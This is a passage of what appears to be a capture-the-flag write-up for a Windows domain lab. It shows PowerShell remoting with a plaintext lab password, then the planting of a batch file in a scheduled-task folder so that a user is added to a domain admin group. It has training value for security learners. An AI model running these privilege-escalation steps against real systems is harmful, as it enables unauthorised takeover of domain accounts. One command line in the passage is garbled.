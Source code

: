
## Running commands as awallace
Coming back to `edavies` PSWA we can now try to send commands as `awallace` using the password `Password@123`:
```PowerShell
PS C:\Utils> $password = ConvertTo-SecureString "Password@123" -AsPlainText -Force
PS C:\Utils> $cred = New-Object PS C:\Utils> System.Management.Automation.PSCredential("Acute\AWallace",$password)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {whoami}
  
acute\awallace
```

Enumerating files and directories there is one that sticks out - `keepmeon`:
![[acute/images/image7.png]]

Lets read its content:
```Powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {cat 'c:\program files\keepmeon\keepmeon.bat'}

REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

This looks like a schedule script, it runs this batch file every five minutes and checks for any .bat files in the parent directory and if there’s a .bat file then it executes it.
The main thing/information is that the script is for only `lois` user and we already know that, `lois` is the only user who can change group membership.
So, we can create a batch file which gives `awallace` user administrator privileges of `site admin` group.
```PowerShell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}
```

Check that the file was created:
```PowerShell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls 'c:\program files\Keepmeon\'}

Directory: C:\program files\Keepmeon

Mode                 LastWriteTime         Length Name                       PSComputerName                    
----                 -------------         ------ ----                       ---------
-a----         3/25/2022   3:12 AM             44 admin.bat                  ATSSERVER                     
-a----        12/21/2021   2:57 PM            128 keepmeon.bat               ATSSERVER

```
